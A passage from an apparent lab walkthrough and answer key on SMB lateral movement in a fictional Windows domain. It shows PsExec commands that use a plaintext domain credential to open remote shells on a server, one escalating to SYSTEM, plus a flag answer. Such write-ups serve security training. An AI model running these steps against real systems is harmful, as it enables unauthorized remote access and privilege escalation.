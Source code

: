 ```
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will proceed to open `PowerShell`, navigate to `C:\Tools\SysInternalsSuite`, and use `PsExec` to establish a session on SRV02:

Code: powershell

```powershell
cd C:\Tools\SysInternalsSuite
.\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\helen> cd C:\Tools\SysInternalsSuite
PS C:\Tools\SysInternalsSuite> .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
```

Subsequently, students can proceed to grab the flag located in the `C:\Flags` directory:

Code: powershell

```powershell
type C:\Flags\helensonly.txt
```

```
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Flags\helensonly.txt
```

Answer: `SMB_as_user_for_Lateral_Movement`

# Server Message Block (SMB)

## Question 2

### "Use any tool to get a shell on SRV02 using the service Application Layer Gateway Service (ALG) and read the flag located at C:\\Flags\\serviceflag.txt:"

Students will reuse the previously spawned target and RDP session(s). They will exit from the previous `PsExec` session and will establish a new one with `SYSTEM` privileges by adding the `-s` parameter:

Code: powershell

```powershell
.\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd
```
